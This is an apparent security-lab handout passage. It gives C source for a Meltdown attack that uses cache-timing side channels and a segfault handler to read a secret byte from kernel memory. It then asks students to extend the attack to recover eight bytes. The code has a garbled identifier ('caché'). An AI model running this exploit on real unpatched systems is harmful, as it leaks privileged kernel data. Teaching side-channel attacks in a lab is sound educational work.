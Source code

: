 \begin{lstlisting}[caption=\texttt{MeltdownAttack.c}]
static int scores[256];

void reloadSideChannelImproved()
{
  int i;
  volatile uint8_t *addr;
  register uint64_t time1, time2;
  int junk = 0;
  for (i = 0; i < 256; i++) {
     addr = &array[i * 4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= caché_HIT_THRESHOLD)
        scores[i]++; /* if caché hit, add 1 for this value */
  }
}

// Signal handler
static sigjmp_buf jbuf;
static void catch_segv() { siglongjmp(jbuf, 1); }

int main()
{
  int i, j, ret = 0;
  
  // Register signal handler
  signal(SIGSEGV, catch_segv);

  int fd = open("/proc/secret_data", O_RDONLY);
  if (fd < 0) {
    perror("open");
    return -1;
  }

  memset(scores, 0, sizeof(scores));
  flushSideChannel();
  
  // Retry 1000 times on the same address.
  for (i = 0; i < 1000; i++) {
    ret = pread(fd, NULL, 0, 0);
    if (ret < 0) {
      perror("pread");
      break;
    }
	
    // Flush the probing array
    for (j = 0; j < 256; j++) 
        _mm_clflush(&array[j * 4096 + DELTA]);

    if (sigsetjmp(jbuf, 1) == 0) { meltdown_asm(0xfb61b000); }

    reloadSideChannelImproved();
  }

  // Find the index with the highest score.
  int max = 0;
  for (i = 0; i < 256; i++) {
    if (scores[max] < scores[i]) max = i;
  }

  printf("The secret value is %d %c\n", max, max);
  printf("The number of hits is %d\n", scores[max]);

  return 0;
}
\end{lstlisting}


Please compile and run the code, and explain your observations. 
The code above only steals a one-byte secret from the kernel. The actual
secret placed in the kernel module has 8 bytes. You need to modify the above code
to get all the 8 bytes of the secret.


\section{Informe del Laboratorio}


